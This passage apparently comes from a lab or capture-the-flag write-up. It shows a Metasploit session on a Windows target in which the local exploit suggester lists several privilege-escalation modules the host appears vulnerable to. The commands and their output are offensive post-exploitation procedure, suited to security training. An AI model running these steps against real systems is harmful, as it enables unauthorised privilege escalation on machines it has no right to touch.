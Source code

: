 ```
report continues, see winPEAS.out file.
...
```

We execute the exploit suggester in metasploit:
```
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(multi/handler) > use 0
msf6 post(multi/recon/local_exploit_suggester) > options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 34 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf5 post(multi/recon/local_exploit_suggester) > 
```

